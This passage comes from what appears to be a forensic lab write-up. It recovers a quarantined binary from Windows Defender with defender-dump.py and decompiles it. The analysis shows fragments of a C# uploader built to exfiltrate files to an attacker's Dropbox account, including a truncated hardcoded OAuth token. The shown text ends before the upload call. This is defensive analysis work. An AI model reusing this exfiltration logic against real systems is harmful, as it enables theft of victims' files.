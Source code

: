 It was flagged with the signature `Trojan:Win32/Bearfoos.A!ml`, a known detection used by Microsoft to classify obfuscated malware often associated with exfiltration tooling. The detection was classified as Severe, and the real-time protection engine successfully quarantined the file, preventing further execution.

In order to conduct a deeper analysis of the `xbyssd.exe` binary — which was previously quarantined by Microsoft Defender on `CTA-WKS01` — I initiated the process of recovering the quarantined file. For this task, I utilized the [defender-dump.py](https://github.com/knez/defender-dump/blob/master/defender-dump.py) tool, a utility designed to extract files from the Windows Defender quarantine store.

```bash
python defender-dump.py -d "C:\Labs\Evidence\CouncilOfTropicalAffairs\TriageImages\CTA-WKS01\C:\"
```

<img src="/assets/img/apt29.png" alt="" />

The tool output confirmed that the file was extracted and archived as `quarantine.tar`. This `.tar` archive contains one or more quarantined samples, including `xbyssd.exe`.


<img src="https://i.imgflip.com/9to1ux.jpg" alt="" />

Upon decompiling the recovered binary `xbyssd.exe`, it was revealed to be a C#-based .NET application explicitly written for the purpose of file exfiltration. The core functionality of the program is to upload a specified file to a Dropbox account using the Dropbox API.

The main logic is implemented within the `Main()` method of a C# async task, and exhibits the following behaviors:

```c
private static async Task Main(string[] args)
{
	if (args.Length < 1)
	{
		Console.WriteLine("Usage: Uploader.exe <full_path_to_file>");
		return;
	}
```

The executable expects a single argument — the full path to the file that should be uploaded. If this argument is not supplied, the process terminates with a usage hint.

```c
string accessToken = "sl.A..."; // hardcoded Dropbox OAuth2 token
```

A hardcoded Dropbox `OAuth2 bearer token` is embedded within the binary. This enables direct, unauthenticated access to the attacker's `Dropbox` account for uploading files.

```c
string dropboxFileName = Path.GetFileName(filePath);
string dropboxPath = "/" + dropboxFileName;
```
